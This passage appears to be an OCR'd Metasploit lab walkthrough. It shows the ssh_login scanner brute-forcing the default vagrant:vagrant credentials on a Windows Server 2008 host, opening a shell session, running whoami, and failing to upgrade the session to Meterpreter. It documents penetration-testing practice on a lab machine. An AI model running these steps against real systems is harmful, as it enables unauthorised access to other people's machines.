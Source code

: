 ```
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME vagrant
USERNAME => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD vagrant
PASSWORD => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.0.16.119
RHOSTS => 10.0.16.119
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 10.0.16.119:22 - Starting bruteforce
[+] 10.0.16.119:22 - Success: 'vagrant:vagrant' 'Microsoft Windows Server 2008 R2 Standard 6.1.7601 Service Pack 1 Build 7601'
[*] SSH session 1 opened (10.10.21.2:37091 -> 10.0.16.119:22 ) at 2023-05-03 18:22:38 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell windows  SSH root @   10.10.21.2:37091 -> 10.0.16.119:22  (10.0.16.119)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions 1
[*] Starting interaction with 1...

pwd
/cygdrive/c/Users/vagrant
whoami
vagrant-2008r2\sshd_server
^Z
Background session 1? [y/N]  y
```

```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell windows  SSH root @   10.10.21.2:37091 -> 10.0.16.119:22  (10.0.16.119)

msf6 auxiliary(scanner/ssh/ssh_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[-] Target is running Windows on an unsupported architecture such as Windows ARM!
```

